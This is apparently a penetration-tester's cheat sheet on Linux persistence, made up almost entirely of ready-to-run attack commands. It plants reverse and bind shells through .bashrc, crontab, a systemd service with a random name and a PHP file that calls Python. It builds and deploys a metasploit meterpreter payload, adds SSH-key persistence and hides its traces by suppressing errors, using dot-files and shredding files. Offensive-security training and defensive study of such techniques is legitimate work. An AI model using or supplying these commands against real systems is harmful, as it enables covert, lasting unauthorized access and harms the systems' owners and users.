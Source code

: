 # linux persistance

anytime you have a remote shell, remember to background it and run *stty raw -echo* so the terminal will not echo special character and pass them through the shell (when you type *fg*, it will not echo to screen). You can also use *stty -a* on the attack machine to see your rows and columns and set them to the same thing on the remote box with *stty rows* and *stty cols* respectively

## tools

[linper](https://github.com/montysecurity/linper)

## bashrc

- executed everytime bash is initialized for the given user

`echo "bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1' 2> /dev/null 1>&2 & sleep .0001" >> ~/.bashrc`

## crontab

`crontab -l > /tmp/tmp.cgL8qKGk4U && echo "* * * * * bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1'" >> /tmp/tmp.cgL8qKGk4U; crontab /tmp/tmp.cgL8qKGk4U && rm /tmp/tmp.cgL8qKGk4U`

`echo -e "* * * * * echo task\rno crontab for $USER" | crontab`

## systemctl

```
echo "bash -c 'bash -i > /dev/tcp/RHOST/RPORT 2>&1 0>&1'" >> /etc/systemd/system/Tb8lKOKxGP.sh

if test -f /etc/systemd/system/M8JmWQM9fr.service;
then
	echo > /dev/null
else
	touch /etc/systemd/system/M8JmWQM9fr.service
	echo "[Service]" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "Type=oneshot" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStartPre=/usr/bin/sleep 60" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStart=/bin/bash /etc/systemd/system/Tb8lKOKxGP.sh" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "ExecStartPost=/usr/bin/sleep infinity" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "[Install]" >> /etc/systemd/system/M8JmWQM9fr.service
	echo "WantedBy=multi-user.target" >> /etc/systemd/system/M8JmWQM9fr.service
	chmod 644 /etc/systemd/system/M8JmWQM9fr.service
	systemctl start M8JmWQM9fr.service 2> /dev/null & sleep .0001
	systemctl enable M8JmWQM9fr.service 2> /dev/null & sleep .0001
fi
```

## directories
everything in /etc/init and /etc/init.d/ is ran at startup

/etc/rc.local is a pre-init file that will also work on BSD and Linux, the file has to start with "/bin/bash -e" and end with "exit 0"

## netcat and bashrc
### reverse shell
Put reverse shell in targets bashrc and despite success or fail, it returns no error to screen and gives the user their bash shell upon initilization
	
	On Target Box
		echo "nc attackBox attackPort -e /bin/bash 2> /dev/null & sleep .0001" > ~/.bashrc
	On Attack Box
		nc -lnvp attackPort

### bind shell
Same idea as above, only it's a bind shell, not a reverse shell

	On Target Box
		echo "nc -lnvp attackPort -e /bin/bash 2> /dev/null & sleep .0001" > ~/.bashrc
	On Attack Box
		nc attackBox attackPort

## bash and cron
The less dependencies the better. Since Linux treats socket connections as files, you can redirect the bash terminal's interactive capabilities to a *file* that is really just a socket connection
	
	On Target Box
		echo "echo 'bash -i >& /dev/tcp/attackBox/attackPort 0>&1 | bash'" > /var/tmp/.cron.sh && chmod +x /var/tmp/.cron.sh && echo "* * * * * cd /var/tmp && ./.cron.sh" > cronjobtmp.sh && crontab cronjobtmp.sh && rm cronjobtmp.sh
	On Attack Box
		nc -lnvp attackPort

## metasploit and cron
If you prefer to use msfconsole to make post exploitation a bit easier, below is a one-liner for creating the payload and handler

	On Attack Box
		sudo service postgresql restart && msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -e x86/shikata_ga_nai -i 5 LHOST=attackBox LPORT=attackPort -o mal.elf && msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set LHOST attackBox; set LPORT attackPort; exploit"

	On Target Box
		nc -lnvp $port > /home/.mal.elf && chmod +x /home/.mal.elf
	
	On Attack Box
		nc $target $port < mal.elf

	On Target Box
		echo "* * * * * cd /home/ && ./.mal.elf" > .cron && crontab .cron && shred .cron; rm .cron

## metasploit and ssh
You need to already have a meterpreter session to follow along
	
	In Meterpreter
		use post/linux/manage/sshkey_persistence
		set fields
		run
		
	On Attack Box
		chmod 600 $ssh_key.txt (created by module)
		ssh -i $ssh_key.txt user@target

## php and python
If you have write access to a php file on the target and the target has python installed, you can use the following for a reverse shell

	In PHP file
		<?php system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.12",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''); ?>
	On Attack Box
		nc -lnvp 5555

Suggest stacking persistence, as a wise man once said
> Two is one, one is none - Mubix

